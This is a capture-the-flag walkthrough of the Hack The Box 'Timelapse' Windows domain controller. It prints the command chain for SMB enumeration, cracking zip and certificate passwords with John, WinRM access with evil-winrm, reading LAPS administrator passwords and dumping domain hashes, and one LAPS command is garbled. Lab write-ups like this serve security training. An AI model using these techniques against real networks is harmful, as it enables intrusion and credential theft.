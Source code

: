 ```yaml
---
description: https://app.hackthebox.com/machines/Timelapse
cover: ../../../.gitbook/assets/Timelapse.png
coverY: -54.40414507772022
---
```


# Timelapse

## Nmap

```
sudo nmap 10.10.11.152 -Pn -p- -sS -sV

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-07-02 14:42:07Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
58212/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting out we check anonymous logon with `smbmap`. Where we find that "Shares" share is read only access to us.

```bash
smbmap -H '10.10.11.152' -u 'a' -p '' -d 'timelapse.htb'
```

![](<../../../.gitbook/assets/image (88).png>)

Recursively searching the share with `smbmap` reveals to us that LAPS may be installed in the environment as well as the interesting file `winrm_backup.zip.`

```bash
smbmap -H '10.10.11.152' -u 'a' -p '' -d 'timelapse.htb' -r
```

![](<../../../.gitbook/assets/image (1018).png>)

Download the file:

```bash
smbmap -H '10.10.11.152' -u 'a' -p '' -d 'timelapse.htb' -R -A .zip
```

![](<../../../.gitbook/assets/image (89).png>)

As the zip file is password protected we can utilize `zip2john` to hash the file and then crack it.

```bash
/usr/sbin/zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip 
```

![](<../../../.gitbook/assets/image (83).png>)

supplying john with you `rockyou.txt` word list we find the hash is cracked quickly.

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt winrmbackup.hash 
```

![](<../../../.gitbook/assets/image (818).png>)

We are left with the file `legaccy_dev_auth.pfx`. A .pfx file is a certificate in PKCS#12 format.

![](<../../../.gitbook/assets/image (704).png>)

Again, we need to hash the `.pfx` file and crack the password.

```bash
/usr/bin/pfx2john legacyy_dev_auth.pfx >> pfx.hash
```

![](<../../../.gitbook/assets/image (689).png>)

With the .pfx file we can now look at how we can connect to the target system. It is possible to connect over WinRM by providing a public certificate and a valid private key both of which can be extracted from .pfx files.

I used the following link for guidance on how to extract this information:

**URL:** [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

```bash
# Extract the private key
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]

# Extract the certificate
openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [drlive.crt]

# Decrypt the private key
openssl rsa -in [drlive.key] -out [drlive-decrypted.key]
```

**Note:** You may need to connect to a TCP OpenVPN configuration for the following to connect successfully.

```bash
 evil-winrm -i '10.10.11.152' -c 'drlive.crt' -k 'drlive-decrypted.key' -S -r 'timelapse.htb' 
```

![](<../../../.gitbook/assets/image (840).png>)

![](<../../../.gitbook/assets/image (837).png>)

From here we look into the `ConsoleHost_History.txt` file and find credential information contained within.

![](<../../../.gitbook/assets/image (691).png>)

We now have the credentials for `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`

```bash
evil-winrm -i '10.10.11.152' -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -P 5986
```

Viewing the group memberships for our current user we see we are a member of "LAPS Readers".

![](<../../../.gitbook/assets/image (683).png>)

Knowing this we can run the following `b` command to pull the local administrator password for the host DC01.

```powershell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Objee $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

![](<../../../.gitbook/assets/image (594).png>)

We are then able to use `Evil-WinRM` to authenticate against the target system with the LAPS password.

```bash
evil-winrm -i '10.10.11.152' -u 'administrator' -p '+K)HlT72oO(W6;W&402qD9LS' -S -P 5986
```

![](<../../../.gitbook/assets/image (602).png>)

Then grab the **root** flag.

![](<../../../.gitbook/assets/image (655).png>)

`Crackmapexec` has also been utilized with the credentials to dump the `NTDS.dit` hashes from the target system.

![](<../../../.gitbook/assets/image (784).png>)
